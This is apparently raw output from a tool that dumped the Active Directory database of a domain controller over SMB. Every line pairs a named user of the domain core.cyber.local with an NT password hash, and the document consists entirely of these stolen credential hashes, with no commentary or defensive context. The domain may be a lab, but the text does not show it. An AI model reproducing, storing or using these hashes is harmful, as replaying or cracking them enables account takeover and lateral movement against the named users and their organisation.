NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Frida.Scott:1145:aad3b435b51404eeaad3b435b51404ee:378c2421dee9dfba8979350a9ad9fef2:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Perez:1146:aad3b435b51404eeaad3b435b51404ee:1497c5872e69cc7249da673c13e76551:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Shannon.Bailey:1147:aad3b435b51404eeaad3b435b51404ee:9c81f2ea0716178909838e1b63224792:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Gale.Meade:1148:aad3b435b51404eeaad3b435b51404ee:7d3b540c0ccae2e159b46f15e11af1fb:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Daryl.Keck:1149:aad3b435b51404eeaad3b435b51404ee:db36d427a725941069326a5e0a7d67b9:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Ed.Rother:1150:aad3b435b51404eeaad3b435b51404ee:c700dedbd6ebf4f0557f1be87ab015cc:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\John.Davis:1151:aad3b435b51404eeaad3b435b51404ee:54a5fdae743eb5e3761dc9f824552545:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Miguel.Suda:1152:aad3b435b51404eeaad3b435b51404ee:eec81254d77614cab0247b2a9c874a12:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Amber.Veilleux:1153:aad3b435b51404eeaad3b435b51404ee:7d4a864ada01dba622ab2f95dfd91f7c:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Richard.Gonzales:1154:aad3b435b51404eeaad3b435b51404ee:f640d116965d7408d11c6aa3747632d8:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Shaw:1155:aad3b435b51404eeaad3b435b51404ee:70dff1869fb28ea4d5d4243e5d2029df:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Bruce.Bonner:1156:aad3b435b51404eeaad3b435b51404ee:d003c918b37e736866e8cd7081c6a693:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jean.Currie:1157:aad3b435b51404eeaad3b435b51404ee:4e5520fd83df0c4145cd29bcb8e78038:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Kathryn.Middleton:1158:aad3b435b51404eeaad3b435b51404ee:e946961e7a4129f5c36c5340c053e23b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Margarita.Dotson:1159:aad3b435b51404eeaad3b435b51404ee:64bd9bc10203c20a9c5ab3c8ede2e405:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Adam.Lester:1160:aad3b435b51404eeaad3b435b51404ee:9c693a3e0de7fdf2ef611b65d6553046:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Rachel.Crawford:1161:aad3b435b51404eeaad3b435b51404ee:496f87a102c35a6f92df9e211180ac4d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Timothy.Jorgenson:1162:aad3b435b51404eeaad3b435b51404ee:bc0ea081eb82f6cc0362f7c7f91e0a84:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\George.Wirth:1163:aad3b435b51404eeaad3b435b51404ee:0dbc2eec6c7a1632e733176297189956:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Josh.Holman:1164:aad3b435b51404eeaad3b435b51404ee:721d92459e7bc848dd7a2021e3d5a90f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\David.Thompson:1165:aad3b435b51404eeaad3b435b51404ee:04528b55e57352ed8fcec1fe214b8a76:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Daniel.Rodriguez:1166:aad3b435b51404eeaad3b435b51404ee:78eaf096608f5219f1507f3f5e96d29a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\David.McMillan:1167:aad3b435b51404eeaad3b435b51404ee:5eb5822263685ca53509a043d300c164:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Mary.Davis:1168:aad3b435b51404eeaad3b435b51404ee:b5e033364fca1f660ce582748239d4c3:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\James.Thompson:1169:aad3b435b51404eeaad3b435b51404ee:9908d5c13179cdcaddaaf6793114fa90:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jessica.Jones:1170:aad3b435b51404eeaad3b435b51404ee:bd9641bb76faee040f616353cde2b3bd:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Roberta.Mace:1171:aad3b435b51404eeaad3b435b51404ee:d5f9557692da9ce35eb98cfe15076060:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Dora.Birkland:1172:aad3b435b51404eeaad3b435b51404ee:fc8759ee978babb30e0e2712fa2087f8:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Brian.Holloway:1173:aad3b435b51404eeaad3b435b51404ee:e292c8dffa63f0f8dcdbef11621e7e13:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Guadalupe.Littlejohn:1174:aad3b435b51404eeaad3b435b51404ee:9d612f946427e6c278085ff6c36a94ec:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Harry.Moore:1175:aad3b435b51404eeaad3b435b51404ee:1c1d4d21f01678ce68c3c4566196b7c0:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Nathan.Macmillan:1176:aad3b435b51404eeaad3b435b51404ee:ee55eb68e06b3f6a5d7f8db44a62843d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Hazel.Allison:1177:aad3b435b51404eeaad3b435b51404ee:12bba6c1975a274e35360a9b6c4c8fe5:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Sharon.Ward:1178:aad3b435b51404eeaad3b435b51404ee:0e172a945d7f77bd0612f71a778eb1a5:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Alcantar:1179:aad3b435b51404eeaad3b435b51404ee:8f23c02a353d6166848515824687b39a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\James.Garcia:1180:aad3b435b51404eeaad3b435b51404ee:9f943d993ef87278c2178dedc0bf26ce:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Marcelino.Fehr:1181:aad3b435b51404eeaad3b435b51404ee:6fd3393a083fbb1b4e77fef0ab96f317:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Walters:1182:aad3b435b51404eeaad3b435b51404ee:a8dfbe4203b7f82af043f590a8ab6f37:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Lisa.Wyatt:1183:aad3b435b51404eeaad3b435b51404ee:8b5fab27a86c3a9056acff5152cc33b5:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Michael.Young:1184:aad3b435b51404eeaad3b435b51404ee:32c150a162c4759ddce8ec898ffe443d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Joyce.Cary:1185:aad3b435b51404eeaad3b435b51404ee:3ef9c67dc1366979e3c68037106949a1:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jessie.Rankins:1186:aad3b435b51404eeaad3b435b51404ee:0f4c68490462e74edf0c987f9b536f80:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Roy.Bates:1187:aad3b435b51404eeaad3b435b51404ee:5b6865b4e28e4b19cf32f665605e5590:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Tony.Wilson:1188:aad3b435b51404eeaad3b435b51404ee:1044e2ef08fdd50d31d1bc2962e1ac00:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jessica.Day:1189:aad3b435b51404eeaad3b435b51404ee:1cec58897187b4e3f88683148cb94cfe:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Trena.Sandefur:1190:aad3b435b51404eeaad3b435b51404ee:8b9984b1042684a1b8a153c1e18e1cc4:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Tanya.Gallaway:1191:aad3b435b51404eeaad3b435b51404ee:decdefd280894efcbec0a965503c5ade:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Gloria.Mackey:1192:aad3b435b51404eeaad3b435b51404ee:d55ea68e6631f1c8d5199caf13dd81da:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Lonnie.Ver:1193:aad3b435b51404eeaad3b435b51404ee:9577819d5545d9c037e2fe05002d15df:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Mary.Haggerty:1194:aad3b435b51404eeaad3b435b51404ee:bfe9b2951eccccbe892818eab54a0dbc:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Kathleen.Dixon:1195:aad3b435b51404eeaad3b435b51404ee:dbe40416384d39175c69c791fbd1890a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\John.Robles:1196:aad3b435b51404eeaad3b435b51404ee:18631f88a71de157872bf6904e0f646b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Darryl.Gutierrez:1197:aad3b435b51404eeaad3b435b51404ee:abeb0cd4a408501d34018c5c9d49a8af:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Gregory.Sweeney:1198:aad3b435b51404eeaad3b435b51404ee:8cba528b9b320fb4ddc3184589eaf66a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jeniffer.Schumacher:1199:aad3b435b51404eeaad3b435b51404ee:53b8480b3a988250e41b28bf61360c45:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Thomas.Riley:1200:aad3b435b51404eeaad3b435b51404ee:df74e61912a2b8dfe2895d5c93674177:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Betty.Simms:1201:aad3b435b51404eeaad3b435b51404ee:46c3a4929fd0cfdb00257d4094fbd424:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Martha.Gatto:1202:aad3b435b51404eeaad3b435b51404ee:0f352fddc3cf4f7823d1f3846c10084b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Sandra.Slattery:1203:aad3b435b51404eeaad3b435b51404ee:6316b51a29ad61d8a9f09719ce7568d9:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Lee.Cortez:1204:aad3b435b51404eeaad3b435b51404ee:0e1b64d560a67021ea077b8e7b984735:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Lori.Carpenter:1205:aad3b435b51404eeaad3b435b51404ee:bbe7e925a8dbeee0b769087a82eeba0b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Michael.Delgado:1206:aad3b435b51404eeaad3b435b51404ee:068f6a0795e3265fb4ac87b6d5a92f4f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Tiffany.Dryden:1207:aad3b435b51404eeaad3b435b51404ee:9a2691657baf482aeba6ac07873054de:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\John.Alvarado:1208:aad3b435b51404eeaad3b435b51404ee:26a7c2c847cd6c332fbf7530214e2e34:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Renae.Lester:1209:aad3b435b51404eeaad3b435b51404ee:bd9fb8c5a081ccb8b1760a7d2c227938:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Billy.William:1210:aad3b435b51404eeaad3b435b51404ee:2a3075a10c7113b4da9f8da8cc3b85c9:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Dave.Harding:1211:aad3b435b51404eeaad3b435b51404ee:93870a14aeabe22f146934d03c7403f5:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Anthony.Watts:1212:aad3b435b51404eeaad3b435b51404ee:4a77bc7ebe1b00ff88aa924a723224ab:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Steve.Otoole:1213:aad3b435b51404eeaad3b435b51404ee:eaca0f1ae041009cf34b1038334b3d2b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Ghislaine.Cooper:1214:aad3b435b51404eeaad3b435b51404ee:2b15b7b2d9c5bbeaabe08f33a31e4f7d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Charles.Bennett:1215:aad3b435b51404eeaad3b435b51404ee:b868e0619037d1d548d0518a3aad6d1c:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Linda.Bolds:1216:aad3b435b51404eeaad3b435b51404ee:2b615fb0e3434143d2461b8ae184a963:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Rebecca.Gough:1217:aad3b435b51404eeaad3b435b51404ee:95ff1f5028414a773a1cdfd1a6ccfb0c:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Victor.Morillo:1218:aad3b435b51404eeaad3b435b51404ee:bfba9e517d1585f759572fcc8398e6f9:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Carrie.Peterson:1219:aad3b435b51404eeaad3b435b51404ee:2b0d76a17c160318842732c516a72642:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\John.McManus:1220:aad3b435b51404eeaad3b435b51404ee:e91f75ddfe445dd8bbfd5cde07916b39:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Scott.Waggener:1221:aad3b435b51404eeaad3b435b51404ee:37133eee0e5566f0c7b395995084938d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Paul.Hendrickson:1222:aad3b435b51404eeaad3b435b51404ee:8b204a61b5a9747f1f9236a432123b1d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Beverly.Perry:1223:aad3b435b51404eeaad3b435b51404ee:0cf53399f6c93d28b05883584155f08b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Bonnie.Gordon:1224:aad3b435b51404eeaad3b435b51404ee:9e96fdf58337be781a61d08058c4c342:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Maile.Noda:1225:aad3b435b51404eeaad3b435b51404ee:59f7a8e7dafa4ecf71ccb47418ec9730:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Gregory.Sanders:1226:aad3b435b51404eeaad3b435b51404ee:36595fdc579e6ae23186421fb84ead5d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Arron.Felton:1227:aad3b435b51404eeaad3b435b51404ee:fb4530aa0111b670e803058ead226574:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Leatha.Silva:1228:aad3b435b51404eeaad3b435b51404ee:d62fcca03344ebb57f295cbc8fcfd448:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Clayton.Coleman:1229:aad3b435b51404eeaad3b435b51404ee:8d1ddbdc84ecb25046a44ed1037a31ae:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Larry.Mendoza:1230:aad3b435b51404eeaad3b435b51404ee:0f5b1140560d39dcd95d9ce479e8c693:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Lexie.Wilder:1231:aad3b435b51404eeaad3b435b51404ee:331191ebe2feb5e714287adda24ae25f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Joseph.Musgrove:1232:aad3b435b51404eeaad3b435b51404ee:65c692cf1b5f0a051273f2dd8e5c16e9:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Kathryn.Dalton:1233:aad3b435b51404eeaad3b435b51404ee:fdcbcaa21ec3baafbcbdcdc6b1b1f64f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\David.Pettyjohn:1234:aad3b435b51404eeaad3b435b51404ee:b76991dab25523b94abcd422227ca7a9:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Curtis.Seals:1235:aad3b435b51404eeaad3b435b51404ee:4119f2f86bd1df9b589e3ea4b34b9777:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Oneal:1236:aad3b435b51404eeaad3b435b51404ee:762b4c4b2241f31fdeb9911f2339100a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Elmer.Anderson:1237:aad3b435b51404eeaad3b435b51404ee:abc3a0ca68c2b310706a264e3a289dbe:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Sandra.Lopez:1238:aad3b435b51404eeaad3b435b51404ee:c57b45112cbd00750f7eea5c76fb791c:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Kathy.Murphy:1239:aad3b435b51404eeaad3b435b51404ee:e481d9e2d1f03ef5819b4114f0a3bc83:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Charlene.Hamrick:1240:aad3b435b51404eeaad3b435b51404ee:a4428d762bee4b86047c5556e63a4b9a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jennifer.Bennett:1241:aad3b435b51404eeaad3b435b51404ee:be555d540508eb05bc5e06cd62ff1835:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\William.Blackburn:1242:aad3b435b51404eeaad3b435b51404ee:dc6928f9d43d0cdb8b65bd3125885cbc:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Penelope.Stone:1243:aad3b435b51404eeaad3b435b51404ee:11566bcfdbb0aa40aeb29d9836c148ad:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Flores:1244:aad3b435b51404eeaad3b435b51404ee:5e00fcf05ae879e0202a805488062078:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Christi.Cheatham:1245:aad3b435b51404eeaad3b435b51404ee:e4f0dbd425a5d205c942971b22a07e30:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Willard.Vankirk:1246:aad3b435b51404eeaad3b435b51404ee:712b7a98687ec08dd2c02ad50976b538:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Dorothy.Thomason:1247:aad3b435b51404eeaad3b435b51404ee:3942cdf18653367f3d2b0f54bb20d136:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Betty.Massingill:1248:aad3b435b51404eeaad3b435b51404ee:f163b59f4e660ce8b1d36e92b25b88fb:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Renee.Lopez:1249:aad3b435b51404eeaad3b435b51404ee:81279903dc0b06428f337b6a01e25522:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Teresa.Bray:1250:aad3b435b51404eeaad3b435b51404ee:212927db4b11cb56c3e4b28312223bd3:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Rose.Stepp:1251:aad3b435b51404eeaad3b435b51404ee:4bc91a9f01d4f9addeafef23b9f08e7d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Thomas.Wilson:1252:aad3b435b51404eeaad3b435b51404ee:a9d95b28616877279704acc9ddc4e4fd:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Carmen.Plummer:1253:aad3b435b51404eeaad3b435b51404ee:b2e6906f2295b31b0b8872fa3b8a029e:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Sammie.English:1254:aad3b435b51404eeaad3b435b51404ee:5797d2332442e9e026df5b6f751bc12f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Ashley.Henke:1255:aad3b435b51404eeaad3b435b51404ee:43bd6274fa3d116bf984e079329b6f10:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Richard.Johnston:1256:aad3b435b51404eeaad3b435b51404ee:d8666bc00ea566e23bb05584bb66b73e:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Melissa.Burke:1257:aad3b435b51404eeaad3b435b51404ee:e2323434a3c7677815b8c810e66674fd:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Wilma.Goodyear:1258:aad3b435b51404eeaad3b435b51404ee:5ee76246f40f50d7f48f56894b552cd1:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Debra.Wade:1259:aad3b435b51404eeaad3b435b51404ee:7cac969bc43dbc3f6aa74c528e201469:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Linda.Barrera:1260:aad3b435b51404eeaad3b435b51404ee:10fa4b49b77581bff6533c5256713cd9:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Sara.Moreno:1261:aad3b435b51404eeaad3b435b51404ee:b555fe01fb820825cd0b725923255173:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Bonnie.Parker:1262:aad3b435b51404eeaad3b435b51404ee:0aaee4d8da2938a7f3a557eb47e4e210:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Frederick.Santiago:1263:aad3b435b51404eeaad3b435b51404ee:591a6d2276687cfb03aba7e6ed92b942:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Brandon.English:1264:aad3b435b51404eeaad3b435b51404ee:7a88aadf10096d67c23e8fb7b057b96d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Andrew.Doyle:1265:aad3b435b51404eeaad3b435b51404ee:a3bbf7d032d1c55a9192eee0167a0424:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Benjamin.Lee:1266:aad3b435b51404eeaad3b435b51404ee:151aa97f220af7c255e22ccab90dcb43:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Mary.Torres:1267:aad3b435b51404eeaad3b435b51404ee:269d3df18acaa669b118ba1a82658b0f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Ethel.Head:1268:aad3b435b51404eeaad3b435b51404ee:2da47401badfc1f9c7743659e470966d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Andrew.Wells:1269:aad3b435b51404eeaad3b435b51404ee:3952949ed3e216318f614d6f864df917:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\David.Titus:1270:aad3b435b51404eeaad3b435b51404ee:b75d06c61b229bf75f85778347611d7b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Frances.Mason:1271:aad3b435b51404eeaad3b435b51404ee:8c5992da3a2bde80c7eebf986c05fa40:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jerry.Baker:1272:aad3b435b51404eeaad3b435b51404ee:1ccb55f188b2acd532316730ed5d229c:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Reina.Tolbert:1273:aad3b435b51404eeaad3b435b51404ee:0808f847c9cde652a3d9611c754325cc:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Phillip.Carver:1274:aad3b435b51404eeaad3b435b51404ee:8162271a5a61150160493c2da10c3053:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Juan.March:1275:aad3b435b51404eeaad3b435b51404ee:39673541f55e405a55e27bfa2a221f6c:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\George.Correia:1276:aad3b435b51404eeaad3b435b51404ee:59dfa5345d48d5a9bd110b2adb540627:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Ethel.Bui:1277:aad3b435b51404eeaad3b435b51404ee:8c8b78f83fa48426982ec1c0e3e6ae12:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Marie.Young:1278:aad3b435b51404eeaad3b435b51404ee:7f2f74671e2c631782cc879f600334f8:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\John.Goza:1279:aad3b435b51404eeaad3b435b51404ee:a0d471a999c534e46097486ec476a814:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Maria.Gourley:1280:aad3b435b51404eeaad3b435b51404ee:8fa973abf0fc8db370a3b24453d57b66:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Allison.Reeves:1281:aad3b435b51404eeaad3b435b51404ee:42343ec6555aa25c42addcc4c4e2d6af:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Barbara.Martin:1282:aad3b435b51404eeaad3b435b51404ee:91805f57d83646a73a3ba2f7691098bf:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Howard.Strickland:1283:aad3b435b51404eeaad3b435b51404ee:be0c3f3361b139c05cfecac463c7a2c5:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Christina.Sibley:1284:aad3b435b51404eeaad3b435b51404ee:695567a062810e62329e350d95f5b84b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Merle.Elias:1285:aad3b435b51404eeaad3b435b51404ee:13b7a8366529fb75fc8a131dac4c7eb0:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Paula.Pederson:1286:aad3b435b51404eeaad3b435b51404ee:56dbf412fecac2c616e982c67a60e61f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Rick.Potts:1287:aad3b435b51404eeaad3b435b51404ee:5fade407e39b1efff42e489e4d362830:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Iona.Braud:1288:aad3b435b51404eeaad3b435b51404ee:9e43793a559f3f69a37c8315c6763175:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\John.Huddleston:1289:aad3b435b51404eeaad3b435b51404ee:0fa5a91524f1a79775428eaf916c03c1:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Fore:1290:aad3b435b51404eeaad3b435b51404ee:7e582f990f43bf89e159f358aa8595f8:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Rosanne.Waldron:1291:aad3b435b51404eeaad3b435b51404ee:32eb8f4b7947b20d15b7bd98e24075e5:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Steve.Miranda:1292:aad3b435b51404eeaad3b435b51404ee:a12a186908e839a5ec69e669ca9a704e:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Annie.Stevenson:1293:aad3b435b51404eeaad3b435b51404ee:f6d2414906a7c681abd14abe0f032f09:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Sergio.Degen:1294:aad3b435b51404eeaad3b435b51404ee:00ae4d9edce0cba5980ea062a733683a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Lemons:1295:aad3b435b51404eeaad3b435b51404ee:efab31115ed2b71e050a12400e64f174:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Steven.Chapman:1296:aad3b435b51404eeaad3b435b51404ee:2f5ccd47f120e74d9cabff188ba7af31:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Shawn.Swanigan:1297:aad3b435b51404eeaad3b435b51404ee:dab823ce1c69a0e35af167fbaf115fb2:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Betty.Bloom:1298:aad3b435b51404eeaad3b435b51404ee:6e767b95ca1dd8067df6c0f9222ff977:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Eugene.Salerno:1299:aad3b435b51404eeaad3b435b51404ee:82798a5054533a38b08787734f949609:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Gary.Oneil:1300:aad3b435b51404eeaad3b435b51404ee:bdc65a77cffee9c9e9773e88472f2cc6:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Julie.Reyes:1301:aad3b435b51404eeaad3b435b51404ee:2303c11b930cab3c5c0e0209d6b831a6:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jose.Fortner:1302:aad3b435b51404eeaad3b435b51404ee:f88049a719db791320df612544f753c7:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Danielle.Dale:1303:aad3b435b51404eeaad3b435b51404ee:ccec66534ff7c54f2091117ac0d37dc1:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Alexander.Bradbury:1304:aad3b435b51404eeaad3b435b51404ee:f66a97867976b1e477074efa0595aeb0:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Michele.Trahan:1305:aad3b435b51404eeaad3b435b51404ee:b4f2b0f9e862924494b5b5c8f9462d9e:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Barbara.Nielsen:1306:aad3b435b51404eeaad3b435b51404ee:6cb8686abaa1817eba405eef73305c7a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Laurie.Hall:1307:aad3b435b51404eeaad3b435b51404ee:4c631f4ec8236644dd71a28cc7e6c866:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Gabrielle.Licata:1308:aad3b435b51404eeaad3b435b51404ee:78337efd1b415608519a98b11a6d3b09:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\James.Martinez:1309:aad3b435b51404eeaad3b435b51404ee:5924e57a5ccba673ed874aadf7b92d4b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Dennis.Fischer:1310:aad3b435b51404eeaad3b435b51404ee:86b02cdf2922335c7f5fba246e7434d3:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Daniel.Naron:1311:aad3b435b51404eeaad3b435b51404ee:23d5d5a9ffaa46a8b5fa9ea92f30ac68:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Brian.Harting:1312:aad3b435b51404eeaad3b435b51404ee:ae135911fea03529d8198b8fde490ec4:::
